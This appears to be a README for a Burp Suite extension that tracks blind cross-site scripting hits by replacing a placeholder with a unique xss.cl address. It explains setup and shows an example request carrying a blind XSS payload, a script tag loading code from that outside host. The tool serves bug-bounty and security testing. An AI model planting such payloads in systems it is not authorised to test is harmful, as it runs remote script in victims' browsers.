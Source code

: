 # What is the this tool for?

This tool can be used to generate relevant XSS addresses that can be used to track HTTP requests. By using this tool, all your injection attempts will be tracked and the reports you generate will include the full HTTP request in the final output.

# Minimum Burp Suite Version

2023.1

Because of the use of Burp Extensions API - Montoya

# Setup

You can download the jar directly and load it into burpsuite.

After loading the plugin, a new tab will be created, as shown below.

<img width="1048" alt="image" src="https://user-images.githubusercontent.com/16237562/215692824-f1174bbc-d00d-4d7e-b5b0-dd171aae7ac9.png">

Just fill in the form and click Login.

`replace` is the javascript address that needs to be replaced. (Try to ensure that `replace` is unlikely to appear in normal http. Guarantee uniqueness.)

For example (`replace` is `test123`)

```
GET /concat-us HTTP/1.1
Host: example.com
aaa: test123

content=testhello<script src="test123"></script>
```

Finally the extension will automatically update the request

```
GET /concat-us HTTP/1.1
Host: example.com
aaa: https://request-id-domain.xss.cl

content=testhello<script src="https://request-id-domain.xss.cl"></script>
```

# Where to view the request that triggered the payload

https://xss.bughunter.app/dashboard/trigger

<img width="1330" alt="image" src="https://user-images.githubusercontent.com/16237562/215695198-fd570376-050a-43dc-b4f4-4a604335c1f0.png">

